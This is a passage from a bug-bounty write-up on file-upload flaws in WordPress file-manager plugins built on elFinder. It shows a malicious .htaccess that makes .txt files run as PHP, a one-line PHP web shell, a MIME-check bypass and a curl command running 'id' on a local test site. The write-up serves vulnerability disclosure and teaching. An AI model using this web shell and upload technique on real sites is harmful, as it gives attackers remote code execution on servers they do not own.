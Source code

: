 ```
<Files ~ ".*">
    Require all granted
    Order allow,deny
    Allow from all
</Files>

AddType application/x-httpd-php .txt
```

Inside the `Files` directive, we want every file to be publicly accessible. Then, in the [`AddType`](https://httpd.apache.org/docs/2.0/mod/mod_mime.html#addtype) directive, we set `.txt` files to have `application/x-httpd-php` MIME type, which means the file will be executed by the PHP engine.

Why Apache? In most WordPress setup, it runs a tech stack called LAMP, which stands for Linux, **Apache**, MySQL, and PHP. So, if a plugin allows users to upload `.htaccess` files, most likely that a WordPress site with this plugin installed will suffer from RCE.

Anyway, let's try to upload a `.htaccess` file! After setting up the shortcode, we can confirm that `.htaccess` file can be uploaded!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108175459.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108175556.png)

> Note: This plugin by default doesn't display `.htaccess` files, thus it didn't get displayed in the above image.

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108175538.png)

Now we can upload a `.txt` file that contains a PHP code that we want to execute!

```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.01.08|17:57:39(HKT)]
└> echo -n ';;<?php system($_GET["cmd"]); ?>' > webshell.txt
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108175834.png)

> Note: Make sure the `.txt` file is in the same directory of the `.htaccess` file.

Oh, btw I added `;;` to ensure the MIME type is `text/plain`, just in case the administrator set the allowed MIME type to `text/plain`. This can be optional. ([See `text/plain` magic number](https://github.com/waviq/PHP/blob/master/Laravel-Orang1/public/filemanager/connectors/php/plugins/rsc/share/magic.mime#L538))

Finally, we should be able to execute arbitrary PHP code!

```shell
└> curl --get http://localhost/wp-content/webshell.txt --data 'cmd=id'
;;uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice! Let's move on to the next common misconfiguration/mistake in elFinder.

### Writable `.htaccess` in "attributes" Option - [Advanced File Manager](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-manager-advanced/advanced-file-manager-5212-5213-authenticated-subscriber-arbitrary-file-upload)
